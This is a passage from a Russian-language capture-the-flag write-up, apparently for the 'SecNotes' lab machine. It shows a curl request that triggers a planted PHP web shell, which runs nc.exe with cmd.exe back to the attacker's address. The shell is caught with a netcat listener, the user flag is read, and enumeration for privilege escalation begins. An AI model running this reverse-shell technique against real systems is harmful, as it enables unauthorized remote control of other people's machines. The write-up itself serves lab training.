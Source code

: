 Триггерим подключение к нашей машине через curl:
```text
root@kali:~# curl 'http://10.10.10.97:8808/evil.php?cmd=nc.exe+10.10.14.71+443+-e+c:\windows\system32\cmd.exe'

```

И получаем, наконец, свой реверс-шелл и забираем первый флаг:
```text
root@kali:~# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49681.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

### user.txt
```text
C:\inetpub\new-site>type C:\Users\tyler\Desktop\user.txt
type C:\Users\tyler\Desktop\user.txt
6fa75569????????????????????????
```

# PrivEsc: tyler → Administrator
Блуждая по хосту, можно обнаружить много отсылок к подсистеме Linux ([*WSL*](https://ru.wikipedia.org/wiki/Windows_Subsystem_for_Linux "Windows Subsystem for Linux — Википедия"), aka ***W**indows **S**ubsystem for **L**inux*), например, это ярлык `bash.lnk` на рабочем столе Тайлера:
```text
C:\inetpub\new-site>cd C:\Users\tyler\Desktop
cd C:\Users\tyler\Desktop

C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
04/11/2018  04:34 PM             1,142 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
08/19/2018  09:25 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,897 bytes
               2 Dir(s)  33,251,074,048 bytes free
```
